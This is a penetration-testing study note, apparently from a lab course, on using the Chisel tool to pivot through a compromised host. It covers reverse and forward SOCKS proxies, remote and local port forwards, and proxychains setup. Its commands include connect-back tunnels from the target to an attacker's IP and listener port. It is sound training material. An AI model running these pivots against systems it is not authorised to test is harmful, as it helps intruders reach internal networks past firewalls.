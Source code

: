 [Chisel](https://github.com/jpillora/chisel) is an awesome tool which can be used to quickly and easily set up a tunnelled proxy or port forward through a compromised system, regardless of whether you have SSH access or not. It's written in Golang and can be easily compiled for any system (with static release binaries for Linux and Windows provided). In many ways it provides the same functionality as the standard SSH proxying / port forwarding we covered earlier; however, the fact i*t doesn't require SSH access on the compromised target* is a big bonus.

Before we can use chisel, we need to download appropriate binaries from the tool's [Github release page](https://github.com/jpillora/chisel/releases). These can then be unzipped using `gunzip`, and executed as normal:

![[Chisel-20241209145423168.webp]]

You must have an appropriate copy of the chisel binary on _both the attacking machine and the compromised server._ Copy the file to the remote server with your choice of file transfer method. You could use the webserver method covered in the previous tasks, or to shake things up a bit, you could use SCP:  
`scp -i KEY chisel user@target:/tmp/chisel-USERNAME`


---

The chisel binary has two modes: _client_ and _server_. You can access the help menus for either with the command: `chisel client|server --help`  
e.g:

![[Chisel-20241209145533999.webp]]

We will be looking at two uses for chisel in this task (a SOCKS proxy, and port forwarding); however, chisel is a very versatile tool which can be used in many ways not described here. You are encouraged to read through the help pages for the tool for this reason.


---

## Reverse SOCKS Proxy

Let's start by looking at setting up a reverse SOCKS proxy with chisel. This connects _back_ from a compromised server to a listener waiting on our attacking machine.  

On our own attacking box we would use a command that looks something like this:  
`./chisel server -p LISTEN_PORT --reverse &   `

This sets up a listener on your chosen `LISTEN_PORT`.  

On the compromised host, we would use the following command:  
`./chisel client ATTACKING_IP:LISTEN_PORT R:socks &`  

This command connects back to the waiting listener on our attacking box, completing the proxy. As before, we are using the ampersand symbol (`&`) to background the processes.

![[Chisel-20241209145727324.webp]]

Notice that, despite connecting back to port 1337 successfully, the actual proxy has been opened on `127.0.0.1:1080`. As such, we will be using port 1080 when sending data through the proxy.

Note the use of `R:socks` in this command. "R" is prefixed to _remotes_ (arguments that determine what is being forwarded or proxied -- in this case setting up a proxy) when connecting to a chisel server that has been started in reverse mode. It essentially tells the chisel client that the server anticipates the proxy or port forward to be made at the client side (e.g. starting a proxy on the compromised target running the client, rather than on the attacking machine running the server). Once again, reading the chisel help pages for more information is recommended.

## Forward SOCKS Proxy

Forward proxies are rarer than reverse proxies for the same reason as reverse shells are more common than bind shells; generally speaking, egress firewalls (handling outbound traffic) are less stringent than ingress firewalls (which handle inbound connections). That said, it's still well worth learning how to set up a forward proxy with chisel.  

In many ways the syntax for this is simply reversed from a reverse proxy.

First, on the compromised host we would use:  
`./chisel server -p LISTEN_PORT --socks5`  

On our own attacking box we would then use:  
`./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks`  

In this command, `PROXY_PORT` is the port that will be opened for the proxy.

For example, `./chisel client 172.16.0.10:8080 1337:socks` would connect to a chisel server running on port 8080 of 172.16.0.10. A SOCKS proxy would be opened on port 1337 of our attacking machine.

## Proxychains Reminder

When sending data through either of these proxies, we would need to set the port in our proxychains configuration. As Chisel uses a SOCKS5 proxy, we will also need to change the start of the line from `socks4` to `socks5`:  
`[ProxyList]   # add proxy here ...   # meanwhile   # defaults set to "tor"   socks5  127.0.0.1 1080`

> [!Note]
>The above configuration is for a reverse SOCKS proxy -- as mentioned previously, the proxy opens on port 1080 rather than the specified listening port (1337). If you use proxychains with a forward proxy then the port should be set to whichever port you opened (1337 in the above example).

## Remote Port Forward

A remote port forward is when we connect back from a compromised target to create the forward.  

For a remote port forward, on our attacking machine we use the exact same command as before:  
`./chisel server -p LISTEN_PORT --reverse &`

Once again this sets up a chisel listener for the compromised host to connect back to.  
The command to connect back is slightly different this time, however:  
`./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &`

You may recognise this as being very similar to the SSH reverse port forward method, where we specify the local port to open, the target IP, and the target port, separated by colons. Note the distinction between the `LISTEN_PORT` and the `LOCAL_PORT`. Here the `LISTEN_PORT` is the port that we started the chisel server on, and the `LOCAL_PORT` is the port we wish to open on our own attacking machine to link with the desired target port.  

To use an old example, let's assume that our own IP is 172.16.0.20, the compromised server's IP is 172.16.0.5, and our target is port 22 on 172.16.0.10. The syntax for forwarding 172.16.0.10:22 back to port 2222 on our attacking machine would be as follows:  
`./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &`  

Connecting back to our attacking machine, functioning as a chisel server started with:  
`./chisel server -p 1337 --reverse &`  

This would allow us to access 172.16.0.10:22 (via SSH) by navigating to 127.0.0.1:2222.

## Local Port Forward

As with SSH, a local port forward is where we connect from our own attacking machine to a chisel server listening on a compromised target.

On the compromised target we set up a chisel server:  
`./chisel server -p LISTEN_PORT`  

We now connect to this from our attacking machine like so:  
`./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT`  

For example, to connect to 172.16.0.5:8000 (the compromised host running a chisel server), forwarding our local port 2222 to 172.16.0.10:22 (our intended target), we could use:  
`./chisel client 172.16.0.5:8000 2222:172.16.0.10:22`

## Closing chisel connections

As with the backgrounded socat processes, when we want to destroy our chisel connections we can use `jobs` to see a list of backgrounded jobs, then `kill %NUMBER` to destroy each of the chisel processes.


> [!Note]
>When using Chisel on Windows, it's important to remember to upload it with a file extension of `.exe` (e.g. `chisel.exe`)!

